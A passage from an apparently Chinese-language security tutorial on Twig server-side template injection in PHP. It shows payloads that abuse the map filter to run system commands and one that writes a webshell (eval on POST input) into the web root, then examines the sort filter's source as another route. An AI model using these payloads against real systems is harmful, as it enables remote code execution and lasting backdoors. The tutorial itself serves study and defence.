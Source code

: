 > 上述四个方法可以达到命令执行的有前三个，并且 exec 是无回显执行

```php
{{["calc"]|map("system")}}
{{["calc"]|map("passthru")}}
{{["calc"]|map("exec")}}    // 无回显
```

> 如果上面这些命令执行函数都被禁用了还可以执行其他函数执行任意代码

```php
{{["phpinfo();"]|map("assert")|join(",")}}
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|map("file_put_contents")}}    // 写 Webshell
```

> 既然 map 的 `$arrow` 可以利用，那继续寻找带有 $arrow 参数的应该也可以发现可以利用的过滤器

### sort 过滤器
> 这个 sort 筛选器可以用来对数组排序，可以传递一个箭头函数来对数组进行排序

```php
{% for user in users|sort %}
    ...
{% endfor %}


{% set fruits = [
    { name: 'Apples', quantity: 5 },
    { name: 'Oranges', quantity: 2 },
    { name: 'Grapes', quantity: 4 },
] %}

{% for fruit in fruits|sort((a, b) => a.quantity <=> b.quantity)|column('name') %}
    {{ fruit }}
{% endfor %}

// Output in this order: Oranges, Grapes, Apples
```

> 类似于 map，模板编译的过程中会进入 twig_sort_filter 函数，这个 twig_sort_filter 函数的源码如下

```php
function twig_sort_filter($array, $arrow = null)
{
    if ($array instanceof \Traversable) {
        $array = iterator_to_array($array);
    } elseif (!\is_array($array)) {
        throw new RuntimeError(sprintf('The sort filter only works with arrays or "Traversable", got "%s".', \gettype($array)));
    }

    if (null !== $arrow) {
        uasort($array, $arrow);    // 直接被 uasort 调用 
    } else {
        asort($array);
    }

    return $array;
}
```
